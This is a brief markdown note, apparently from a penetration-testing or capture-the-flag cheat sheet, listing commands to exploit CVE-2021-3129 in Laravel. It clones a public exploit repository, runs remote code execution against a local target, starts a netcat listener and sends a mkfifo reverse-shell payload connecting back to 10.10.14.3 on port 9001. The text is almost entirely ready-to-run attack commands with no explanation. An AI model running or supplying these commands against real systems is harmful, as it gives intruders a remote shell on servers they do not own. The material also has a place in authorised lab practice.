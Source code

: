 # Laravel

```bash
git clone https://github.com/nth347/CVE-2021-3129_exploit.git
cd CVE-2021-3129_exploit
chmod +x exploit.py
```

```bash
./exploit.py http://localhost:8000 Monolog/RCE1 id
```

```bash
nc -lvnp 9001
```

```bash
./exploit.py http://localhost:8000 Monolog/RCE1 'rm /tmp/f;mkfifo /tmp/f;cat
/tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 9001 >/tmp/f'
```
